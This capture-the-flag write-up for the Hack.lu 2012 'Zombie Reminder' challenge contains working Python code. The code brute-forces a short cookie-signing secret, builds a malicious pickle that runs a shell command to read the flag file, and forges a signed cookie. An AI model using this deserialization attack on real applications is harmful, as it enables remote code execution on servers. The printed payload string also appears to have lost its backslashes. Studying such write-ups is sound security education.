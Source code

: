 ```yaml
---
title: '[writeup] Hacklu 2012 &#8211; Challenge #19 &#8211; Zombie Reminder &#8211; (200)'
author: pdah
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:0:{}'
tweetbackscheck:
  - 1408358963
category: ctf - clgt crew
tags:
  - '2012'
  - CTF
  - Hacklu
  - Python Pickle
---
```

> 19 &#8211; Zombie Reminder  
> Zombies love brains. But zombies forget, so they have a tool where they can enter the location of brains they found. In a heroic mission someone managed to obtain both the source code and the information that a critical file can be found at &#8216;/var/www/flag&#8217;.  
> Your mission is to obtain the contents of this file by any means and avenge your fallen friend!  
> Service: https://ctf.fluxfingers.net:2073/  
> Source: https://ctf.fluxfingers.net/challenges/zombie_reminder.py

This challenge is a web application returning an arbitrary text that inputed by you previously. Your input is stored in &#8220;location&#8221; cookie with format of &#8220;**<hash\_digest>!<encoded\_input>**&#8221; where:

*   encoded\_input = base64\_encode(pickle.dumps(your_input))
*   hash\_digest = sha256(encoded\_input+secret_key)
  
When you go back to the main page, if a valid cookie is set the application will load the pickle object from cookie and print it out.</p> <pre class="brush: plain; title: ; notranslate" title="">location = pickle.loads(b64d(location))
</pre>

The purpose of hash\_digest is to ensure that your\_input is a **string** submitted through challenge&#8217;s web form. However this design has 2 major flaws:

*   secret_key is too short (5 characters)
*   pickle has a known security issue (<http://nadiana.com/python-pickle-insecure>)

We submit a random string (let&#8217;s say &#8220;test&#8221;) and look at the cookie:  
location=&#8221;04b098d726754c810c65595a82dd42a9564ce332fd51c0da2a43bbdd42a91f37!VnRlc3QKcDAKLg==&#8221;

We use this script to bruteforce the secret key :

<pre class="brush: plain; title: ; notranslate" title="">#!/usr/bin/env python

import multiprocessing
from hashlib import *
import string
import sys

s = string.ascii_letters + string.digits
location = "VnRlc3QKcDAKLg=="
digest = "04b098d726754c810c65595a82dd42a9564ce332fd51c0da2a43bbdd42a91f37"

print len(s)

WORKERS    = 8

def worker(start,end):

    for i1 in s[start:end]:
        for i2 in s:
            for i3 in s:
                for i4 in s:
                    for i5 in s:
                        secret  = i1+i2+i3+i4+i5

                        if sha256("%s%s" % (location, secret)).hexdigest() == digest:
                            print "*******", secret
                            sys.exit(0)

def main():

    ps = []
    for i in range(WORKERS):
        if i == WORKERS -1:
            tmp = multiprocessing.Process(target=worker, args=(i*(len(s)/WORKERS),len(s),))
        else:
            tmp = multiprocessing.Process(target=worker, args=(i*(len(s)/WORKERS),(i+1)*(len(s)/WORKERS),))
        tmp.start()
        ps.append(tmp)

    for p in ps:
        p.join()

    return jobs.empty()

if __name__ == '__main__':
    main()
</pre>

After a few minutes we managed to find the key **oIqxe**. Our next task is to build a pickled representation of a python code object, the goal is to execute a code similar to this when pickle.loads() is called:

<pre class="brush: plain; title: ; notranslate" title="">__import__("commands").getoutput("cat /var/www/flag")
</pre>

This code is used to generate such serialized string:

<pre class="brush: plain; title: ; notranslate" title="">import pickle, new

def nasty(module, function, *args):
        return pickle.dumps(new.classobj(function, (), {'__getinitargs__': lambda self, arg = args: arg, '__module__': module}) ())

t = nasty("commands", "getoutput", "cat /var/www/flag")

print repr(t)

# Output: "(S'cat /var/www/flag'np1nicommandsngetoutputnp2n(dp3nb."
</pre>

Now we have everything to get the flag, time to build a valid cookie:

<pre class="brush: plain; title: ; notranslate" title="">from hashlib import sha256
import base64
b64e=base64.b64encode

secret = 'oIqxe'
location = b64e("(S'cat /var/www/flag'np1nicommandsngetoutputnp2n(dp3nb.")

cookie = "%s!%s" % (sha256("%s%s" % (location, secret)).hexdigest(), location)

print cookie
</pre>

Place this cookie into your browser (don&#8217;t ask us how to do that lolz) and refresh, the flag will be right on the screen.

> Hello, here is what we remember for you. If you want to change, delete or extend it, click below  
> 08ac40047dae3f6a36471d768dfcb1b7a8e18fb8